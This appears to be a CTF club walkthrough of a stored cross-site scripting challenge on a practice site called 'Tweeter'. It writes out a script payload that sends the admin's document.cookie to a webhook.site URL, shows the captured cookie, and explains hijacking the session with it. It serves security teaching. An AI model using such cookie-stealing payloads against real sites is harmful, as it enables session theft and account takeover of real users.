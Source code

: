 # Cross-Site Scripting on Tweeter

Thanks for coming to our first meeting on cross-site scripting (XSS)! We hope you learned something, even if you didn't get to solve the challenge during the meeting. Below is a walkthrough of how to find and exploit the XSS vulnerability in Tweeter, and hopefully this makes a bit more clear what's happening in an XSS attack.

## Finding the vulnerability
The website doesn't have too much functionality: you can sign up, log in, make posts, change your password, and edit your bio. Testing for XSS is essentially just putting `<script>alert(document.domain)</script>` into all the fields you can. In this case, the vulnerable field is the user bio, and the payload is triggered when visiting your profile.

![JavaScript alert triggered from tweeter.umdctf.io](xss-poc.png)

## Building the exploit
Now that we can execute JavaScript, we need a way to log in as the admin. The website distinguishes users by their cookies, so we just need to steal the admin's cookies and set our cookies to be the same.

In JavaScript, website cookies can be accessed through the `document.cookie` property, which you can read more about [here](https://developer.mozilla.org/en-US/docs/Web/API/Document/cookie).

We also need some way to send the cookies back to us, since we don't have access to the admin's computer. This can be done by sending a request with the admin's cookies to somewhere that lets us monitor requests, such as [webhook.site](https://webhook.site). The payload for this is below:
```html
<script>
	fetch(
		"https://webhook.site/443b7e1e-bd3f-4e38-9976-9da3abe33f11?cookies=" +
		encodeURIComponent(document.cookie))
</script>
```
We can break this down as follows:
- The first line opens a script tag, which lets us execute JavaScript code.
- The second line calls the `fetch` function, which sends a request to the provided URL. More info [here](https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API/Using_Fetch).
- The third line is the URL of our webhook, with `?cookies=` added to the end. The question mark denotes the start of the query parameters, where we can put our cookies. Then `cookies=` starts a parameter with the name `cookies`.
- The fourth line encodes the value `document.cookie` to be put in the URL parameter.

## Running the Exploit
We put the payload above in our bio and send the link to our profile to the admin. When the admin visits the link, the payload will execute and send a request which will show up in our webhook.

![Image of webhook.site panel, showing the location of the query parameters](request-in-webhooksite-panel.png)

Inspecting the request in the webhook.site panel, we can see the value of the `cookie` query parameter is `user=YSH+uCoYHrhxCYY9O6%2FrhimfpoLULLQ7cCVngV4AD24%3Dadmin`. The `document.cookie` property puts cookies in the form `key=value`, so the admin's cookie is `YSH+uCoYHrhxCYY9O6%2FrhimfpoLULLQ7cCVngV4AD24%3Dadmin`.

After setting your user cookie to the admin's cookie (instructions for [Chrome](https://developer.chrome.com/docs/devtools/application/cookies/) and [Firefox](https://firefox-source-docs.mozilla.org/devtools-user/storage_inspector/cookies/index.html)) and reloading, you'll be logged in as the admin. Now you can head over to the "Manage Users" link and give yourself Blue.
